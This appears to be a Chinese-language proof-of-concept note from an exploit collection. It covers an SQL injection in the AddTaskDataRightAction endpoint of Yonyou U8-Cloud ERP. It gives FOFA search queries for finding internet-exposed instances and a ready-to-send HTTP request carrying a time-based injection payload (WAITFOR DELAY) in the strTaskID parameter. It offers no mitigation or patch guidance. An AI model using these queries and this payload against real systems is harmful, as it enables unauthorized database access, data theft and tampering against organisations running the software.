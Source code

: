 # 用友U8-Cloud系统接口AddTaskDataRightAction存在SQL注入漏洞

用友U8-Cloud系统接口AddTaskDataRightAction存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```java
app="用友-U8-Cloud"
title=="U8C"
```

## poc

```javascript
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.task.AddTaskDataRightAction&method=execute&strTaskID=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409081935783.png)
